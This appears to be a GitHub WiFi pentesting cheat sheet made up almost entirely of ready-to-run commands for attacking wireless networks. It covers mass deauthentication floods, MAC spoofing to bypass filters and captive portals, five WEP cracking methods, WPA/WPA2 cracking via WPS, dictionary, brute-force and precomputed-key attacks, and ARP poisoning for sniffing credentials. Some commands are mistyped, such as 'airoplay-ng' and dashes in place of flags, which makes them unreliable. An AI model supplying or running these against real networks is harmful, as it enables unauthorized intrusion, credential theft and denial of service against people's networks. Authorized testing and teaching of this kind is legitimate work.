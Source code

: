                                       __        ___  __ _   ____            _            _   
                                      \ \      / (_)/ _(_) |  _ \ ___ _ __ | |_ ___  ___| |_ 
                                       \ \ /\ / /| | |_| | | |_) / _ \ '_ \| __/ _ \/ __| __|
                                        \ V  V / | |  _| | |  __/  __/ | | | ||  __/\__ \ |_ 
                                         \_/\_/  |_|_| |_| |_|   \___|_| |_|\__\___||___/\__|                           
                                          Pre-connection Attacks
                                          Gaining Access
                                          Post-connection Attacks]
Other links:
https://github.com/0x90/wifi-arsenal

## WiFi Bands
-----------
● Decides the frequency range that can be used. 
● Determines the channels that can be used. 
● Clients need to support band used by router to communicate with it. 
● Data can be sniffed from a certain band if the wireless adapter used supports that band.

● Most common WiFi Bands are: 
 ○ a uses 5 Ghz frequency only. 
 ○ b, g both use 2.4 Ghz frequency only. 
 ○ n uses 5 and 2.4 Ghz. 
 ○ ac uses frequencies lower than 6 Gh
 
## Enabling monitor mode
```Bash
  > iwconfig
  > airmon-ng check kill  
  > airmon-ng start wlan1 
  > airodump-ng wlan1mon 
  > airodump-ng --band a wlan1mon (show all type of wifi networks)
  ```

Pre-connection Attacks
-----------------------
 1.Mac address changing
 2.Deauthenticating All Clients From Protected WiFi Network
 3.Deauthenticating a Client From Protected WiFi Networks
   ## mac changing
    ```Bash
    > ifconfig wlan0 down
    > ifconfig wlan0 hw ether 00:ff:ff:ff:44:55
    > ifconfig wlan0 up
    > ifconfig wlan0
    ```
    Deauthenticating All Clients From Protected WiFi Network
    ........................................................
    airodump-ng -bssid 44:55:tt:ee:ee:bb --channel 11 wlan0
    aireplay-ng --deauth 10000000 -a 44:55:tt:ee:ee:bb wlan0

    Deauthenticating a Client From Protected WiFi Networks
    ......................................................
    aireplay-ng --deauth 10000000 -a 44:55:tt:ee:ee:bb -c 22:dd:33:44:55:66 wlan0

Gaining Access
---------------
1.Find SSID of hidden networks
2.Bypass mac filtering
3.To gain access to
  - Captive portals
  - WEP
  - WPA
  - WPA 2
  - WPA/WPA2 Enterpise
4.Fake Access Point

  Discovering Names of Hidden Networks
  .....................................
    airodump-ng --bssid 44:55:tt:ee:ee:bb --channel 6 wlan0
    airoplay-ng --deauth 4 -a 44:55:tt:ee:ee:bb -c 22:dd:33:44:55:66 wlan0

  Bypassing Mac Filtering (Blacklists & Whitelists)
  ..................................................
    ifconfig wlan0 down
    macchanger -m 22:dd:33:44:55:66 wlan0

  Bypassing Captive portals
  ..........................
     1.Change mac address to one of a connencted client.
     2.Sniff logins in monitor mode.
       - Since captive portals are OPEN.
       - IE: they do not use encryption.
       - We can sniff data sent to/from it using airodump-ng
       - Then use WIRESHARK to read this data including passwords.
     3.Create a fake AP, ask users to login.
     4.Connect and sniff logins after running an arp spoofing attack.
       - Since captive portal are open.
       - Therefore we can connect to the target without a password.
       - We can then run a normal arp spoofing attack.
       = clients will autoatically lose their connection and will be asked to login again.
       = Dta sent to/from router including passwords will be directed to us.
mitmf --arp --spoof -i wlan0 --gateway 192.168.10.1
ettercap -Tq -M arp:remote -i wlan0 ///


WEP CRACKING
------------
Method 1 : Fake Authentication Attack
root@uceka:~# airmon-ng start wlan0
root@uceka:~# airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
#What’s my mac?
root@uceka:~# macchanger --show wlan0mon
root@uceka:~# aireplay-ng -1 0 -a <BSSID> -h <OurMac> -e <ESSID> wlan0mon
root@uceka:~# aireplay-ng -2 –p 0841 –c FF:FF:FF:FF:FF:FF –b <BSSID> -h <OurMac> wlan0mon
root@uceka:~# aircrack-ng –b <BSSID> <PCAP_of_FileName>

Method 2 : ARP Replay Attack
root@uceka:~# airmon-ng start wlan0
root@uceka:~# airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
#What’s my mac?
root@uceka:~# macchanger --show wlan0mon
root@uceka:~# aireplay-ng -3 –x 1000 –n 1000 –b <BSSID> -h <OurMac> wlan0mon
root@uceka:~# aircrack-ng –b <BSSID> <PCAP_of_FileName>

Method 3 : Chop Chop Attack
root@uceka:~# airmon-ng start wlan0
root@uceka:~# airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
#What’s my mac?
root@uceka:~# macchanger --show wlan0mon
root@uceka:~# aireplay-ng -1 0 –e <ESSID> -a <BSSID> -h <OurMac> wlan0mon
root@uceka:~# aireplay-ng -4 –b <BSSID> -h <OurMac> wlan0mon
 #Press ‘y’ ;
root@uceka:~# packetforge-ng -0 –a <BSSID> -h <OurMac> -k <SourceIP> -l <DestinationIP> -y <XOR_PacketFile> -w <FileName2>
root@uceka:~# aireplay-ng -2 –r <FileName2> wlan0mon
root@uceka:~# aircrack-ng <PCAP_of_FileName>

Method 4 : Fragmentation Attack
root@uceka:~# airmon-ng start wlan0
root@uceka:~# airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
#What’s my mac?
root@uceka:~# macchanger --show wlan0mon
root@uceka:~# aireplay-ng -1 0 –e <ESSID> -a <BSSID> -h <OurMac> wlan0mon
root@uceka:~# aireplay-ng -5 –b<BSSID> -h < OurMac > wlan0mon
#Press ‘y’ ;
root@uceka:~# packetforge-ng -0 –a <BSSID> -h < OurMac > -k <SourceIP> -l <DestinationIP> -y <XOR_PacketFile> -w <FileName2>
root@uceka:~# aireplay-ng -2 –r <FileName2> wlan0mon
root@uceka:~# aircrack-ng <PCAP_of_FileName>

Method 5 : SKA (Shared Key Authentication) Type Cracking
root@uceka:~# airmon-ng start wlan0
root@uceka:~# airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@uceka:~# aireplay-ng -0 10 –a <BSSID> -c <VictimMac> wlan0mon
root@uceka:~# ifconfig wlan0mon down
root@uceka:~# macchanger –-mac <VictimMac> wlan0mon
root@uceka:~# ifconfig wlan0mon up
root@uceka:~# aireplay-ng -3 –b <BSSID> -h <FakedMac> wlan0mon
root@uceka:~# aireplay-ng –-deauth 1 –a <BSSID> -h <FakedMac> wlan0mon
root@uceka:~# aircrack-ng <PCAP_of_FileName>

WPA PSK attack with aircrack-ng suite.
--------------------------------------

Place your wireless card into Monitor Mode
airmon-ng start wlan0

Detect all available wireless AP’s and clients
airodump-ng mon0

Setting adapter channel
iwconfig mon0 channel <channel_number>

Capturing the four-way handshake
airodump-ng --channel <channel_number> --bssid <bssid> --write capture mon0

You can capture the handshake passively (it takes time) or de-authenticate a client.

De-authentication attack
aireplay-ng --deauth 3 -a <BSSID> -c <client_mac> mon0

Deauth every client - aireplay-ng -0 5 -a <bssid> mon0

Dictionary Attack
aircrack-ng -w passwords.lst capture-01.cap

Brute force Attack
crunch 8 8 0123456789 | aircrack-ng -e "Name of Wireless Network" -w - /root/home/wpa2.eapol.cap

WPA / WPA2 CRACKING
-------------------
Method 1 : WPS Attack
root@uceka:~# airmon-ng start wlan0
root@uceka:~# apt-get install reaver
root@uceka:~# wash –i wlan0mon –C
root@uceka:~# reaver –i wlan0mon –b <BSSID> -vv –S
#or, Specific attack
root@uceka:~# reaver –i –c <Channel> -b <BSSID> -p <PinCode> -vv –S

Method 2 : Dictionary Attack
root@uceka:~# airmon-ng start wlan0
root@uceka:~# airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@uceka:~# aireplay-ng -0 1 –a <BSSID> -c <VictimMac> wlan0mon
root@uceka:~# aircrack-ng –w <WordlistFile> -b <BSSID> <Handshaked_PCAP>

Method 3 : Crack with John The Ripper
root@uceka:~# airmon-ng start wlan0
root@uceka:~# airodump-ng –c <Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@uceka:~# aireplay-ng -0 1 –a <BSSID> -c <VictimMac> wlan0mon
root@uceka:~# cd /pentest/passwords/john
root@uceka:~# ./john –wordlist=<Wordlist> --rules –stdout|aircrack-ng -0 –e <ESSID> -w - <PCAP_of_FileName>

Method 4 : Crack with coWPAtty
root@uceka:~# airmon-ng start wlan0
root@uceka:~# airodump-ng –c <Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@uceka:~# aireplay-ng -0 1 –a <BSSID> -c <VictimMac> wlan0mon
root@uceka:~# cowpatty –r <FileName> -f <Wordlist> -2 –s <SSID>
root@uceka:~# genpmk –s <SSID> –f <Wordlist> -d <HashesFileName>
root@uceka:~# cowpatty –r <PCAP_of_FileName> -d <HashesFileName> -2 –s <SSID>

Method 5 : Crack with Pyrit
root@uceka:~# airmon-ng start wlan0
root@uceka:~# airodump-ng –c <Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@uceka:~# aireplay-ng -0 1 –a <BSSID> -c <VictimMac> wlan0mon
root@uceka:~# pyrit –r<PCAP_of_FileName> -b <BSSID> -i <Wordlist> attack_passthrough
root@uceka:~# pyrit –i <Wordlist> import_passwords
root@uceka:~# pyrit –e <ESSID> create_essid
root@uceka:~# pyrit batch
root@uceka:~# pyrit –r <PCAP_of_FileName> attack_db

Method 6 : Precomputed WPA Keys Database Attack
root@uceka:~# airmon-ng start wlan0
root@uceka:~# airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@uceka:~# aireplay-ng -0 1 –a <BSSID> -c <VictimMac> wlan0mon
root@uceka:~# kwrite ESSID.txt
root@uceka:~# airolib-ng NEW_DB --import essid ESSID.txt
root@uceka:~# airolib-ng NEW_DB --import passwd <DictionaryFile>
root@uceka:~# airolib-ng NEW_DB --clean all
root@uceka:~# airolib-ng NEW_DB --stats
root@uceka:~# airolib-ng NEW_DB --batch
root@uceka:~# airolib-ng NEW_DB --verify all
root@uceka:~# aircrack-ng –r NEW_DB <Handshaked_PCAP>


Post-connection Attacks
-----------------------
1.Capture data
2.Bypass HTTPs
3.Bypass router-side security features
4.MITM attacks
5.ARP spoofing
5.DNS spoofing
6.DoS/DDoS Attack
7.Data Modification
8.Sniffing Cookies
9.Session Hijacking
10.Information Gathering

11.STP(RSTP, PVSTP, MSTP) spoofing
12.NDP spoofing
13.VLAN hopping
14.SLAAC Attack
15.Hijacking HSRP (VRRP, CARP)
16.Dynamic routing protocol spoofing (BGP)
17.RIPv2 Routing Table Poisoning
18.OSPF Routing Table Poisoning
19.EIGRP Routing Table Poisoning
20.ICMP Redirect
21.NetBIOS (LLMNR) spoofing
22.DHCP spoofing
23.Rogue DHCP (DHCPv6)
 
 1.ARP Poisoning
  ----------------
       1.Tell the target client that Iam the router
       arpspoof -i [interface] -t [Target IP] [AP IP]
       //arpspoof -i wlan0 -t 192.168.1.5 192.168.1.1
       2.Tell the AP that I am the target client
       arpspoof -i [interface] -t [AP IP] [Target IP]
       //arpspoof -i wlan0 -t 192.168.1.1 192.168.1.5
       
       
       

